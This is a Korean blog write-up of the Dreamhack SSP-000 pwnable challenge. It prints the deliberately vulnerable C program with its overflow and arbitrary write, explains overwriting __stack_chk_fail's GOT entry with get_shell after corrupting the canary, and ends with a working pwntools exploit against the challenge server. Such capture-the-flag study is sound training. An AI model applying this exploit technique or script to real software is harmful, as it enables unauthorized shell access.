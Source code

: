 ```yaml
---
layout: post
title: Dreamhack | SSP-000
subtitle: Dreamhack SSP-000 문제 풀이
categories: dreamhack.io
tags: [Pwnable, dreakhack, Canary, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/192131011-8fd417f2-0eb6-4ea6-aeae-fa628e45c207.jpg">
</p>

해당 문제는 Dreamhack Pwnable 교육과정 중 Stack Canary 실습 문제이다. 따라서 문제에서 요구하는 바는 SSP 방어 기법을 위해하여 flag를 획득하는 것이다.

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    long addr;
    long value;
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x80);

    printf("Addr : ");
    scanf("%ld", &addr);
    printf("Value : ");
    scanf("%ld", &value);

    *(long *)addr = value;

    return 0;
}
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/192131229-8ffe19bd-f21c-4b96-be1e-d172d74699a3.jpg" width = 350>
</p>

* NX bit 활성화로 인해서 BUF에 쉘 코드를 직접 대입하진 못할 것이고, Canary가 존재하므로 Canary leak을 통해 RET를 `get_shell`로 변경할 수 있을 것으로 예상했다.

* 하지만, 문제를 보면 Canary의 값을 알 방법은 없다.

```C
*(long *)addr = value;
```

이 부분을 통해 addr의 메모리 값을 변경할 수 있을 것으로 예상된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/192131377-bda6a500-8902-4258-a11f-77165fb74904.jpg" width = 350>
</p>

`pwndbg`를 통해 disassemble 했을 때 스택 메모리를 표현한 것이다.

```C
read(0, buf, 0x80);
```

해당 함수를 통해 Canary값을 변조하여 **call   0x4006d0 <__stack_chk_fail@plt>** 호출이 가능하게 된다.

**__stack_chk_fail@plt**를 통해 GOT를 참조할 것이다. 따라서, 우리가 입력할 수 있는 addr를 **__stack_chk_fail@got**로 변경하고, 해당 내용을 `get_shell`로 변경하면 된다.(해당 루틴이 정확하게 어떻게 이루어지는지 더 공부해야할 것으로 보인다.)

* **addr** : **__stack_chk_fail@got** 주소
* **__stack_chk_fail@got** : `get_shell`의 주소

현재로서는 이렇게 이해하고 있습니다.

```python
from pwn import *

#p = process("./ssp_000")
p = remote("host3.dreamhack.games", 12630)
elf = ELF("./ssp_000")

get_shell = elf.symbols['get_shell']
p.sendline(b"A"*80) #nop 80bytes

p.recvuntil("r : ") #Addr :

p.sendline(str(elf.got['__stack_chk_fail']))

p.recvuntil("e : ") #value :

p.sendline(str(get_shell))

p.interactive()
```
